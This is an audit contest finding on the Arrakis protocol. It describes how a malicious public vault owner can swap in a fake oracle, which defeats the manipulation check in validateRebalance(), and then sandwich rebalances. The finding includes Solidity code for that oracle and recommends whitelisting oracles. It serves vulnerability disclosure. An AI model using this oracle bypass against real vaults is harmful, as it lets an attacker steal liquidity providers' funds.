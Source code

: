 Tricky Alabaster Panda

high

# Malicious Public Vault Owner can bypass `validateRebalance()`, to sandwich the rebalance for profit

## Summary
The contest README states:
> Public vault owner is RESTRICTED

Hence their actions are not trusted.

## Vulnerability Detail
In `ArrakisStandardManager.rebalance()`, it uses `module.validateRebalance()` before and after the rebalance, in order to ensure that the AMM's spot price has not been significantly manipulated before and after the rebalance as this would allow for sandwich attacks.

```solidity
// check if the underlying protocol price has not been
// manipulated during rebalance.
// that can indicate a sandwich attack.
module.validateRebalance(info.oracle, info.maxDeviation);
```

However, via a 2-day timelock, a malicious public vault owner can choose the oracle address that is used (by calling `updateVaultInfo()`), and can set it to a malicious oracle which simply returns the AMM spot price. 

Example malicious oracle:
```solidity
contract FakeOracle {

    HOT alm;

    constructor(address _alm) {
        alm = HOT(_alm);
    }
   // Simply returns the AMM price so that validateRebalance() is useless
    function getPrice0() external view returns (uint256 price0) {
        uint256 sqrtSpotPriceX96;
        (sqrtSpotPriceX96,,) = alm.getAMMState();


        if (sqrtSpotPriceX96 <= type(uint128).max) {
            price0 = FullMath.mulDiv(
                sqrtSpotPriceX96 * sqrtSpotPriceX96,
                10 ** 6,
                2 ** 192
            );
        } else {
            price0 = FullMath.mulDiv(
                FullMath.mulDiv(
                    sqrtSpotPriceX96, sqrtSpotPriceX96, 1 << 64
                ),
                10 ** 6,
                1 << 128
            );
        }
    }
}
```

Then when the price deviation is calculated in `validateRebalance()`, it will be `0`, so won't revert even if the actual AMM price has been manipulated.

This then allows the malicious public vault owner to sandwich the rebalance and extract value from the LPs.

## Impact
Malicious public vault owner can steal funds from LPs by changing oracle parameter in `vaultInfo`.

## Code Snippet
https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/ArrakisStandardManager.sol#L386

## Tool used
Manual Review

## Recommendation
Whitelist oracles that can be used
